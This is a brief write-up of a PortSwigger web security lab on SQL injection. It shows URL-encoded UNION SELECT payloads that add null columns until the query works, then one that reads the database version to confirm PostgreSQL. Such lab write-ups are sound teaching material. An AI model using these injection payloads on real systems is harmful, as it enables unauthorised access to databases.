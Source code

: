 # [SQLi: UNION, Finding Column Count](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Determining the number of columns needed for a union attack for this lab can be done by adding `null` until it works:

- ❌ `/filter?category=Gifts%27%20union%20select%20null--`
- ❌ `/filter?category=Gifts%27%20union%20select%20null,null--`
- ✅ `/filter?category=Gifts%27%20union%20select%20null,null,null--`

This back-end is PostgreSQL, demonstrated via `/filter?category=Gifts%27%20union%20select%20null,version(),null--`:

![](_/psa-sqli-union-attack,-determining-the-number-of-columns-returned-by-the-query-20250613-1.png)
